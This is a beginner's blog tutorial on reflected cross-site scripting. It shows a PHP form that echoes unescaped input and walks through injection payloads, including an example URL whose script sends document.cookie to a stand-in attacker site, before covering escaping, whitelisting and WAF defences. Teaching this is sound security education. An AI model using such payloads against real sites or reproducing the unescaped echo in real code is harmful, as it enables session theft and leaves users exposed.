 ```yaml
---
title: "An Introduction to Cross-Site Scripting"
date: 2019-08-13
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Web Security
  - Reflected XSS
  - PHP
---
```


# Introduction
So you've learned to create a PHP form recently and are very excited to set up a website with this form. You might think, "Ah, it's just a simple form, what could go wrong?". Well, you wouldn't be the first one to believe that. 

So let's take a look at a simple form that I have written.

```php
<!DOCTYPE html>
<html>
<body>
		<h1>Simple PHP Form</h1>
		<form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
			Name: <input type="text" name="fname">
			<input type="submit">
		</form>
		<?php
			if ($_SERVER["REQUEST_METHOD"] == "GET") {
				echo "<p>Hi " . $_GET['fname'] . "!</p>";
			}
		?>
</body>
</html>
```

Below we can see the form in the browser.

![Simple Form](../../assets/images/xss/1.png)

After typing my name in the input box, we get the following output.

![Input in Form](../../assets/images/xss/2.png)

Now you might be thinking that all is well and good, but what if someone submits the following text as input.

```
<b>Abhishek</b>
```

We get the following output.

![Form Output](../../assets/images/xss/3.png)

Wait, what? So if you pass in an HTML tag, the output is modified based on the tag. This is because when the PHP code echos the content of 'fname,' the resulting HTML sent back from the server looks like this. 

```
<p>Hi <b>Abhishek</b>!</p>
```

This can be verified by looking at the source.

![Page-Source-Inject-1](../../assets/images/xss/inject-1.png)

When the browser looks at the HTML, it sees the `<b>` tag and thinks that text in between is supposed to be rendered bold. The ability to pass in HTML code is known as HTML injection. This has a lot of implications (well other than being able to stylize your output). What if we want to pass in javascript code in the text field. Let's try the following input.

```javascript
<script>alert("test");</script>
```
We get the following output.

![JS in Form](../../assets/images/xss/5.png)

So why did this happen? Well, this is because like in the previous example, we were able to inject code into the page returned by the server. This can be seen by looking at the source. 

![Form-Source-JS](../../assets/images/xss/xss-1.png)

When the browser sees the `<script>` tag, it immediately runs the codes in between. What we saw above is called Cross-Site Scripting (XSS), more specifically Reflected XSS. It is reflected since the script passed in as input is bounced from the web server back to the user's browser. 

So what can we do with this? An alert box might not be harmful to the user, but what about the case where the user is logged in. If we pass the following as input

```javascript
<script>alert(document.cookie)</script>
```

we get the following output.

![cookie](../../assets/images/xss/6.png)

Since the cookie is retrievable, the attacker can, once he gets the cookie, log in as the user and wreak havoc. One way the attacker can retrieve the cookies is by setting up a web server and sending the URL with the malicious code to a target. When the user clicks on the link, his/her browser will then send the cookies to the attacker's server. An example of such an URL is as.

```javascript
http://vulnerable-website?param=<script>window.location="http://attackers-site.com/?cookie=" + document.cookie
</script>
```

The cookie is sent as a GET value which the attacker can then view on his/her server. 

# Well, how can we prevent the above attack? 
Some of the ways we can prevent XSS are:
Escaping all dynamic content, i.e., replace any characters that the browser will interpret with something called entities. For example, `<` is replaced with `&lt;`. This means that when the page is returned back to the user, the browser sees `&lt;`,  and renders it instead of interpreting it. Dynamic content is encoded by default by most modern frameworks. The following two functions can be used.

```
htmlspecialchars(): encodes special characters to HTML entities,
strip_tags(): removes the tags altogether and returns the inner text.
```

Another step that can be added is to use a whitelist. If a field can accept only a finite number of different inputs, we can check if the user-supplied data is in the whitelist. If the user passes in invalid data, we can simply reject it.

A more comprehensive solution is to use a Web Application Firewall (WAF). The WAF sits between the server and the client and filters out any message that contains malicious code. An open-source implementation of a WAF is provided by ModSecurity can be utilized (with care!).

Note that the above mechanisms serve as a base. With attackers coming up with new XSS attack vectors regularly, we must keep ourselves updated to stay safe. In a later post, I will talk about Stored XSS. 